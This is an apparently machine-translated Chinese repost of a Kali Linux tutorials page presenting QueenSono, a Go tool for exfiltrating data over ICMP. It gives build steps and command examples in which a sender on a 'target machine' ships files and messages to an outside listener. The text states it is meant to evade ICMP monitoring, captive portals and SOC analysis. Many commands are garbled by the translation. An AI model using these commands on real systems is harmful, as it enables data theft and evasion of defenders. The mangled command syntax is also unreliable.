 # QueenoSno : Golang 二进制，用于使用 ICMP 协议进行数据过滤

> 原文：<https://kalilinuxtutorials.com/queensono/>

[![](img//5e7a1e409d0594681659cd660df4f31d.png)](https://1.bp.blogspot.com/-Pn1o3uFcvKY/YVBki_sMWKI/AAAAAAAAK-A/L5n_n83HSx4bbTJFZFfFHrtary5C5FhlACLcBGAsYHQ/s728/14805903.png)

QueenSono 工具只依赖于 ICMP 协议不受监控这一事实。这是很常见的。它也可以在具有基本 ICMP 检查(即频率和内容长度观察器)或使用强制网络门户(许多公共 Wi-Fi 在连接到 Wi-Fi(如机场 Wi-Fi)后使用它来验证用户)绕过验证步骤。尝试模仿 PyExfil(和其他软件),目标机器不需要安装 python(所以提供一个二进制文件会很有用)。

**安装**

*>从源代码安装二进制文件*

克隆存储库并在本地下载依赖项:

**git 克隆 https://github.com/ariary/QueenSono.git
make before . build**

要构建 ICMP 数据包发送器`**qssender**`:

**build.queensono-sender**

要构建 ICMP 数据包接收器`**qsreceiver**`:

**build.queensono-receiver**

**用途**

`qssender`是将 ICMP 数据包发送到监听器的二进制文件，因此它是您必须在目标机器上传输的二进制文件。

监听器在你的本地机器上吗(或者任何你能接收 icmp 信息包的地方)

使用`**--help**`可以找到二进制文件的所有命令和标志

**例 1:用“ACK”发送**

*>在这个例子中，我们要发送一个大文件，并在 echo 回复后确认数据包(ACK)的接收。*

![](img//27f63c1a3cc9e6535a4bfd3c4fde974a.png)

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0**-p-f received _ bible . txt

**解释**

在目标机器上:

**$ wget https://raw . githubusercontent . com/mxw/grmr/master/src/final tests/bible . txt #下载一个巨大的文件(以此为例)
$ qssender 发送文件-D2-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 92-s 50000 bible . txt**

**解释**

**例 2:发送无“ACK”**

*>在本例中，我们想发送一条消息，而不等待回应回复(这在目标防火墙过滤传入的 icmp 数据包的情况下很有用)*

![](img//36de6604fcb34932359e919170188277.png)

在本地机器上:

**$ qsreceiver 接收截断的 1 -l 0.0.0.0**

**解释**

在目标机器上:

**$ QS sender send“this isatest I want to send a string w/o waiting the echo reply”-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190-S1-N**

**例 3:发送加密数据**

*>在这个例子中我们要发送一条加密的消息。由于命令行可能被监听，我们使用非对称加密*

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0–加密**

**解释**

在目标机器上:

**$ qssender send“别担心，这封邮件是用公钥加密的。只有你能解密它"-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190 go . mod-S5-encrypt**

**关于加密**

RSA 加密用于对交换的数据保密。例如，通过基本分析或仅仅为了隐私，避免 SoC 查看交换了什么数据(或取证数据)可能是有用的。

但这是有代价的。选择非对称加密是因为加密密钥是在命令行上输入的(因此可以很容易地检索)。因此，我们用公钥加密数据。像这样，如果有人取回加密密钥，就不可能解密消息。但是公钥比私钥小，所以它 ***加密较小的消息*** 。还有， ***计算量大*** 。

另一点，由于我们想要限制数据大小/ping 请求(以避免检测、bug 等)，**仅在需要时使用加密** ***作为消息输出-大小将(应该)总是等于模数*** (密钥的一部分)的大小，后者很大。

[**Download**](https://github.com/ariary/QueenSono)